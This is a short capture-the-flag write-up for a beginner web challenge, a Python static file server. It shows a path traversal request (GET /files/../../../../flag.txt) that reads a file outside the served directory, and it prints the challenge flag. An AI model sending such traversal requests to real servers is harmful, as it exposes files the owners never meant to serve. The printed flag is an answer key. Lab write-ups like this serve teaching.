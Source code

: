 # static file server (beginner)
Here's a simple Python app that lets you view some files on the server.

Author: joseph

https://web-static-file-server-9af22c2b5640.2023.ductf.dev

## Files
static-file-server.zip

## Solution
The website shows the following:
![File Server](images/static_file_server.png)

Opening the file _not the flag_ shows the following content:
```
The real flag is at /flag.txt
```

So we assume at this point, that the server vulnerable to path traversal.

The current file has the path loads up with the request: 
```
GET /files/not_the_flag.txt HTTP/2
```

To traverse now we can try the following request:
```
GET /files/../../../../flag.txt HTTP/2
```

Our assumption was correct and we get back the flag: `DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}`
